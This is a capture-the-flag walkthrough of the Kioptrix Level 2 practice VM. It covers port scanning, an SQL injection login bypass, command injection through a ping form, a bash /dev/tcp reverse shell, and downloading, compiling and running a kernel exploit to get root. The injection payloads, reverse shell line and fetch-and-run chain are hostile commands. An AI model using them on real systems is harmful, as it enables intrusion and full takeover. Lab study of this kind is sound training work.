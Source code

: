 # Kioptrix Level 2

Our target network is `10.0.2.0/24`.

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.2.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.2.8**.

# Reconnaisance

We perform an initial scan as follows:

```bash
nmap 10.0.2.8
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 08:00:27:50:6F:FB (Oracle VirtualBox virtual NIC)
```

Let's check for UDP ports:

```bash
nmap -sU 10.0.2.8
```

Let's do version detection:
```bash
nmap -O 10.0.2.8
```

```
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
```

Now we proceed by examining each of the services on the machine.
Starting with the most interesting.

## ipp

IPP (Internet Printing Protocol) is a TCP/IP based client-server protocol.
IPP enables printing over any LAN or WAN supporting TCP/IP.

```bash
nmap -A 10.0.2.8 -p 631
```

```
PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 1.1
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
```

**CUPS 1.1** is vulnerable to:
* https://www.exploit-db.com/exploits/41233
* https://www.exploit-db.com/exploits/24977

However, when running the exploits:
```
[*]	locate available printer
[-]	no printers
```
# MYSQL

```
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL (unauthorized)
```

# HTTP
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2019-03-03T17:31:54+00:00; +5h00m01s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
```
## Nikto Scan

```
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Server leaks inodes via ETags, header found with file /manual/, fields: 0x5770d 0x1c42 0xac5f9a00;5770b 0x206 0x84f07cc0
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8346 requests: 1 error(s) and 17 item(s) reported on remote host
+ End Time:           2019-03-03 07:37:11 (GMT-5) (67 seconds)
---------------------------------------------------------------------------
```

## SQL Injection Attack

After browsing to the site a login page was present, clearly connected to the backend SQL database.
It accepts POST logins with two parameters:
```
uname
psw
```

Using SQL injection of both parameters:

```
WHERE USERNAME='$uname' AND PASSWORD='$psw'

WHERE USERNAME=USER' OR '1'='1 AND PASSWORD='PASS' OR '1'='1
```

`uname=USER OR '1'='1
psw=PASS' OR '1'='1
`
## Command Injection

We are now presented with a form to ping machines on the network.

If we choose `10.0.2.5` we get the following output:

```
PING 10.0.2.5 (10.0.2.5) 56(84) bytes of data.
64 bytes from 10.0.2.5: icmp_seq=0 ttl=64 time=0.294 ms
64 bytes from 10.0.2.5: icmp_seq=1 ttl=64 time=0.393 ms
64 bytes from 10.0.2.5: icmp_seq=2 ttl=64 time=0.421 ms

--- 10.0.2.5 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.294/0.369/0.421/0.056 ms, pipe 2
```
We can execute commands by inputting:
`10.0.2.5; <cmd>`

Based upon this we can determine the following:

```
# 10.0.2.5; whoami
apache

# 10.0.2.5; ls -l; pwd
-rwxr-Sr-t  1 root root 1733 Feb  9  2012 index.php
-rwxr-Sr-t  1 root root  199 Oct  8  2009 pingit.php
/var/www/html
```

We can see that the `pingit.php` file.

```
10.0.2.5; cat pingit.php
```

```php
echo shell_exec( 'ping -c 3 ' . $target );
```

We can gain a shell as follows, assuming we have netcat listening on 8080 of our Kali machine:

```bash
; bash -i >& /dev/tcp/10.0.2.5/8080 0>&1
```

```bash
uname -a
```

```
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

## Privilege Escalation

Based upon the version of linux from above we found the following:
https://www.exploit-db.com/exploits/9545.

We download the exploit to our Kali machine:
```bash
wget https://www.exploit-db.com/exploits/9545.c
```

We can't just use `wget` on our target machine with SSL sites so we use the following on our Kali machine to host a web server:

```python
python -m SimpleHTTPServer
# Defaults to listen on port 8000
```

Then, on our target shell we get the file, compile it and run it:
```bash
wget 10.0.2.5:8000/9545.c /tmp/linux-sendpage.c

cd /tmp
gcc linux-sendpage.c -o linux-sendpage
chmod +x linux-sendpage

./linux-sendpage
```

Results in:

```
sh: no job control in this shell
sh-3.00# whoami
root
```

**And we have root!**
